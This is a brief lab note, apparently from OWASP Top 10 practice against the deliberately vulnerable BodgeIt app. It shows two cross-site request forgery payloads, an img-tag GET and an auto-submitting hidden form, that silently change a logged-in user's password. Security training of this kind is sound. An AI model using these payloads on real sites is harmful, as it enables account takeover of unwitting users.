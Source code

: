 # A8 - Cross-Site Request Forgery (CSRF)

BodgeIt : leave feedback

`<img src='http://10.6.6.13:8080/bodgeit/password.jsp?password1=heslo&password2=heslo'>`


```
<form action="http://10.6.6.13:8080/bodgeit/password.jsp" method="POST">
  <input type="hidden" name="password1" value="heslo" />
  <input type="hidden" name="password2" value="heslo" />
  <input type="submit" value="Submit request" />
</form>
<script>document.forms[0].submit();</script>

```

